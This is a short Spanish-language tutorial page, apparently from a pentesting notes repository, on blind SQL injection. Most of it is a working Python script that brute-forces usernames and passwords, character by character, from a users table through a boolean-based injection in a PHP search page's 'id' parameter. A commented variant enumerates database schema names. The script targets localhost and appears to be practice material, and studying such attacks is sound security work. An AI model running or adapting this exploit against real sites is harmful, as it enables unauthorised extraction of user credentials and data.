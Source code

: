 
## Inyecciones sin ver el error en el Output 'Blind'

-   **ExtendsClass MySQL Online**: [https://extendsclass.com/mysql-online.html](https://extendsclass.com/mysql-online.html)
Cuando estas en una web a ciegas, tenemos dos formas de hacerlo, por **Tiempo** o **Condiciones**

* **SQL Conditional**: Parra este caso debemos de hacer el Script en Python3
```python
#!/usr/bin/python3

import requests
import signal
import sys
import time
import string
from pwn import *

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)
    
# Ctrl + c
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://localhost/searchUsers.php"
characters = string.printable

def MakeSQLI():
    p1 = log.progress("Fuerza Bruta")
    p1.status("Iniciando fuerza bruta")
    time.sleep(2)
    p2 = log.progress("Datos extraidos")
    extrated_info = ""

    for position in range(1, 150):
        for character in range(33, 126): # El 9 de abajo es un valor que no existe
            sqli_url = main_url + "?id=9 or (select(select ascii(substring((select group_concat(username,0x3a,password) from users),%d,1)) from users where id = 1)=%d)" % (position, character)
#           sqli_url = main_url + "?id=9 or (select(select ascii(substring((select group_concat(schema_name) from information_schema.schemata),%d,1)) from users where id = 1)=%d)" % (position, character)
            p1.status(sqli_url)
            r = requests.get(sqli_url)
            if r.status_code == 200:
                extrated_info += chr(character)
                p2.status(extrated_info)
                break

if __name__ == '__main__':
    MakeSQLI()

```
